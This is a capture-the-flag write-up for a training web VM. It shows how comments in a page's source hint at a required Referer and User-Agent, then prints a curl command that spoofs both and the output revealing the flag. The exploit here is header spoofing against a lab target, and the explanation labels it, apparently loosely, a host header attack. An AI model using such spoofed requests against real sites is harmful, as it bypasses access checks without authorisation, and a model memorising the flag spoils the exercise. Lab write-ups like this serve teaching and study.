


# Spoof(curl)

If we click on `Born2Sec` at the bottom of the page we get to <http://[VM_IP]/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f>





In the source code on this page we can find the following comments (some are more relevant than others):
```
<!--
Voila un peu de lecture :

Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum.
-->

<!-- 
Fun right ?
source: loem.
Good bye  !!!!
-->

<!--
You must come from : "https://www.nsa.gov/".
-->

<!--
Where does it come from?
Contrary to popular belief, Lorem Ipsum is not simply random text. It has roots in a piece of classical Latin literature from 45 BC, making it over 2000 years old. Richard McClintock, a Latin professor at Hampden-Sydney College in Virginia, looked up one of the more obscure Latin words, consectetur, from a Lorem Ipsum passage, and going through the cites of the word in classical literature, discovered the undoubtable source. Lorem Ipsum comes from sections 1.10.32 and 1.10.33 of "de Finibus Bonorum et Malorum" (The Extremes of Good and Evil) by Cicero, written in 45 BC. This book is a treatise on the theory of ethics, very popular during the Renaissance. The first line of Lorem Ipsum, "Lorem ipsum dolor sit amet..", comes from a line in section 1.10.32.

The standard chunk of Lorem Ipsum used since the 1500s is reproduced below for those interested. Sections 1.10.32 and 1.10.33 from "de Finibus Bonorum et Malorum" by Cicero are also reproduced in their exact original form, accompanied by English versions from the 1914 translation by H. Rackham.
-->

<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```

So we have to change our header to make it look like we are coming from <https://www.nsa.gov/> and using custom browser `ft_bornToSec`.

With `curl` we can do exactly that using flags -A (Specify the User-Agent) and -e (Sends the "Referer Page") information to the HTTP server:
```
daniseed@DESKTOP:~/darkly$ curl -e https://www.nsa.gov/ -A "ft_bornToSec" "http://192.168.31.135/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f"  | grep flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  6041    0  6041    0     0   737k      0 --:--:-- --:--:-- --:--:--  737k
<center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```

We have our flag

## Explanation

Attack type: [Host Header Attack](https://portswigger.net/web-security/host-header)

## How to fix it

This vulnerability is fixed on new webservers but it is better ro be careful with header attributes on backend. You should never execute something with their contents
